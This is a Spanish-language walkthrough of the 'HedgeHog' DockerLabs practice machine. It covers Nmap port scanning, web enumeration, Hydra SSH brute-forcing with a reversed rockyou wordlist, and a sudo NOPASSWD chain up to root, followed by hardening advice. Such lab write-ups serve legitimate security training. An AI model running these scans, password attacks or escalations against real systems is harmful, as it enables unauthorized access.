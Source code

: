 # 🖥️ Máquina: **HedgeHog**  
🔹 **Dificultad:** Muy Fácil

---

## 📌 Descripción

**HedgeHog** es una máquina de práctica alojada en **DockerLabs**, diseñada para introducir a los usuarios en el análisis de servicios, reconocimiento de puertos y escalada de privilegios. En esta máquina se aplican técnicas de descubrimiento con Nmap, análisis de páginas web, uso de diccionarios personalizados y revisión de permisos de `sudo` para escalar privilegios.

![Logo](/HedgeHog/Imagenes/Logo.png)

---

## 🚀 Inicio

Primero descargamos e iniciamos la máquina vulnerable con el siguiente comando:

```bash
sudo bash auto_deploy.sh hedgehog.tar
```

![Inicio de máquina](/HedgeHog/Imagenes/Iniciar.jpeg)

---

## 📡 Verificando conectividad

Realizamos un ping para comprobar que la máquina está activa:

```bash
ping 172.17.0.2
```

El valor **TTL** puede darnos pistas sobre si se trata de un sistema Linux o Windows, aunque este dato puede ser modificado.

![Ping](/HedgeHog/Imagenes/Ping.jpeg)

---

## 🔍 Reconocimiento de puertos

Ejecutamos un escaneo completo de puertos usando Nmap:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Esto reveló que están abiertos los puertos **22 (SSH)** y **80 (HTTP)**.

![Puertos](/HedgeHog/Imagenes/Puerto.jpeg)

---

Tengo un script propio que me permite extraer la IP y los puertos del archivo `allPorts.txt`:

```bash
extractPorts allPorts.txt
```

> ℹ️ Más detalles sobre este script están disponibles en mis repositorios.

Luego hacemos un escaneo más detallado sobre los puertos encontrados:

```bash
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

Este análisis nos permite identificar versiones de servicios, útiles para buscar vulnerabilidades.

![Servicios detectados](/HedgeHog/Imagenes/Servicios.jpeg)

---

## 🌐 Análisis web

Ingresamos al sitio web disponible en el puerto 80. Allí encontramos un posible nombre de usuario para SSH. Para confirmar la tecnología detrás del sitio, ejecutamos:

```bash
whatweb 172.17.0.2
```

Probamos también con **Gobuster** y **Wfuzz** para buscar directorios o subdominios ocultos, pero no obtuvimos resultados.

![Sitio web](/HedgeHog/Imagenes/Pagina.jpeg)

---

## 🗝️ Preparación de diccionario personalizado

Intentamos un ataque con **Hydra**, pero el proceso fue muy lento. Por eso, decidimos probar contraseñas desde el final del archivo `rockyou.txt`, ya que es posible que las credenciales estén al final.

Para ello, invertimos el diccionario:

```bash
tac /usr/share/wordlists/rockyou.txt >> /usr/share/wordlists/rockyou_invertido.txt
```

Verificamos su contenido:

```bash
cat /usr/share/wordlists/rockyou_invertido.txt | head
```

Notamos espacios innecesarios, así que los eliminamos con:

```bash
sed -i 's/  //g' /usr/share/wordlists/rockyou_invertido.txt
```

Y comprobamos nuevamente el archivo para asegurarnos de que esté limpio.

> 🔍 Nota: la ruta del diccionario depende de tu sistema y dónde tengas instalada tu biblioteca de listas de palabras.

![Hydra](/HedgeHog/Imagenes/Hydra.jpeg)

---

## 🔐 Acceso por SSH

Una vez obtenidas las credenciales válidas, accedimos al servicio **SSH**.

---

## 🔼 Escalada de privilegios desde el usuario `tails`

### 1️⃣ Verificar permisos de sudo

Al ejecutar `sudo -l`, obtuvimos:

```bash
User tails may run the following commands on 04d3ae7efbc6:
    (sonic) NOPASSWD: ALL
```

Esto indica que el usuario `tails` puede ejecutar cualquier comando como el usuario `sonic` sin necesidad de contraseña.

---

### 2️⃣ Intentar acceder al directorio de `sonic`

```bash
cd /home/sonic/
```

Resultado:

```bash
-bash: cd: /home/sonic/: Permission denied
```

Esto ocurre porque `tails` no tiene permisos directos sobre ese directorio.

---

### 3️⃣ Cambiar al usuario `sonic`

```bash
sudo -u sonic /bin/bash
```

Este comando nos dio acceso a una shell como el usuario `sonic`, gracias a los permisos `NOPASSWD`.

---

### 4️⃣ Escalar a `root` desde `sonic`

Desde la sesión como `sonic`, ejecutamos:

```bash
sudo -u root /bin/bash
```

Y confirmamos acceso como superusuario:

```bash
whoami
# root
```

![Escalada de privilegios](/HedgeHog/Imagenes/Privilegio.jpeg)

---

## ✅ Resultado: Acceso root exitoso

Logramos obtener una shell como `root` mediante una cadena de escalada:

1. `tails` → `sonic` (por sudo sin contraseña)  
2. `sonic` → `root` (también con sudo sin restricciones)

---

## 🧠 ¿Por qué funcionó?

Aunque `tails` no puede ejecutar directamente comandos como `root`, sí puede hacerlo como `sonic`. Y como `sonic` tiene permisos ilimitados en sudo, esto nos permitió escalar sin restricciones.

---

## 🔒 Recomendación de seguridad

Para prevenir este tipo de escalada de privilegios:

- No otorgues permisos `NOPASSWD: ALL` sin necesidad clara  
- Limita los comandos específicos que se pueden ejecutar vía sudo  
- Audita el archivo `/etc/sudoers` regularmente

---

¿Deseas que este informe se convierta también en una plantilla reutilizable o formato para tus futuros reportes?
